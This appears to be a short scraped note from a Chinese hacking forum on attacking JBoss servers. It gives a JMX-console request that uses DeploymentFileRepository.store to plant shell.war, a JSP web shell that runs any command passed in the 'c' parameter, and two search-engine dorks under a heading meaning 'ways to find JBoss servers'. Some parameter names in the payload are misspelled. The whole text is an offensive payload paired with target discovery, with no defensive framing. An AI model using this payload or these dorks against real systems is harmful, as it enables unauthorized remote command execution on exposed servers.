 http://www.hack80.com/thread-22662-1-1.html

?action=invokeOpByName&name=jboss.admin:service=DeploymentFileRepository&methodName=store&argType=java.lang.String&arg0=shell.war&argType=java.lang.String&arg1=shell&artType=java.lang.String&arg2=.jsp&artType=java.lang.String&arg3=<% Runtime.getRuntime().exec(request.getParameter("c")); %>&argType=boolean&arg4=True

寻找JBoss服务器的方法：

inurl:"jmx-console/HtmlAdaptor"
intitle:"Welcome to JBoss"
